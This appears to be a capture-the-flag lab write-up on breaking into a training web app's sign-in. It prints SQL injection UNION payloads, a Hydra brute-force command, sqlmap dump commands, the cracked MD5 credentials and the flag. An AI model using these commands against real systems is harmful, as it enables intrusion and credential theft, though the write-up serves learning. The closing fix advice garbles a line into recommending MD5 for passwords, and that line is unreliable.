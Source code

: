 # Brute Force Sign In
- Method 1 & 3: Because members page was vulnerable to an sql injection attack we can enumerate databases for credentials.
- Method 2: Theres no limit to sign in requests so we can brute force it.

# Vulnerability Method 1

- Thanks to the vulnerability in search members:

``` sql
1 UNION SELECT table_name, table_schema FROM information_schema.tables
```

- Notice The Following:
    First name: db_default
    Surname : Member_Brute_Force

- It means we have a table called db_defaults inside Member_Brute_Force database.
  
- We can try to find all columns
    ``` sql
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```
- We Notice The Table db_default from the [First name: db_default] output has these columns:
    __id, username, password__

- We Know now __db_default__ columns, we can select __url, comment__:
``` sql
1 UNION SELECT username, password FROM Member_Brute_Force.db_default
```
- We Can Notice This: 

    ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
    First name: root
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

    ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
    First name: admin
    Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
- Surname in this case is the password field.
- It is encrypted with md5, so if we decode it we get the output: __shadow__
- If we Login with the credentials **admin** and **shadow** it gives us the flag:
  B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

# Method 2
- In our particular case, we know that the username __admin__ exists.
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt wordlist to use in this case.
- We can use Thc-Hydra: __sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:S=<Success-html-text>"__
- In our case the command would be __sudo hydra -l admin -P /Darkly/04_brute_force_sign-in/Ressources/wordlist.txt 192.168.1.38 http-get-form "/:page=signin&username=admin&password=^PASS^&Login=Login:S=flag"__
- Result is => [80][http-get-form] host: 192.168.1.38   login: admin   password: shadow
- We can also use that for "root" user.
- Also the password is exposed because the form method is GET.


# Vulnerability Method 3
- After Executing the command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" --dbs__ we notice a database named **Member_Brute_Force**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force --tables__ shows us a table named **db_default**
- This command __sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_Brute_Force -T db_default --dump__ dumps us enteries in that table.
- We can crack those password by running a Dictionary attack specifically 'md5_generic_passwd' provided by sqlmap.
- the result is as follows:
    Database: Member_Brute_Force
    Table: db_default
    [2 entries]
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | root     | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
| 2  | admin    | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) |
+----+----------+-------------------------------------------+
- Now we can access this website as admin and root.


# Fix
- We can prevent SQL injections by using prepared statements and parameterized queries.
- Passwords should md5 encrypted because its a weak hashing algorithm.
- We can set limit to request sent by clients.
- We can use POST method when handling passwords and generaly handling form data to prevent exposure.